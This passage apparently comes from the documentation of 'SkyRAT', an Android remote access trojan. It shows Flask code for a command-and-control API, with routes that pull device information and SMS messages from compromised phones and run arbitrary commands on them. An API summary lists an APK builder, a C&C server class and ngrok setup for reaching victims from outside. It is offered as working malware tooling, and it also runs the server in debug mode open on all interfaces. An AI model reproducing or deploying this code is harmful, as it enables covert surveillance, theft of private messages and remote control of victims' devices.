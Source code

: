 ```python

@app.route('/api/device/<session_id>/info', methods=['GET'])
def get_device_info(session_id):
    """Get device information"""
    try:
        client = api.get_client(session_id)
        info = client.get_device_info()
        return jsonify({'status': 'success', 'data': info})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

@app.route('/api/device/<session_id>/sms', methods=['GET'])
def get_sms(session_id):
    """Get SMS messages"""
    box_type = request.args.get('type', 'inbox')
    try:
        client = api.get_client(session_id)
        sms_data = client.extract_sms(box_type)
        return jsonify({'status': 'success', 'data': sms_data})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

@app.route('/api/device/<session_id>/command', methods=['POST'])
def execute_command(session_id):
    """Execute custom command"""
    command = request.json.get('command')
    if not command:
        return jsonify({'status': 'error', 'message': 'Command required'})
        
    try:
        client = api.get_client(session_id)
        response = client.send_command(command)
        return jsonify({'status': 'success', 'data': response})
    except Exception as e:
        return jsonify({'status': 'error', 'message': str(e)})

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=5000, debug=True)
```

## 📚 API Reference Summary

### **Core Classes**
- `SkyRATBuilder`: APK building and configuration
- `SkyRATServer`: C&C server operations
- `NetworkManager`: Network utilities and ngrok

### **Key Functions**
- `get_shell()`: Main server entry point
- `setup_ngrok()`: External access setup
- `validate_ip()`, `validate_port()`: Input validation
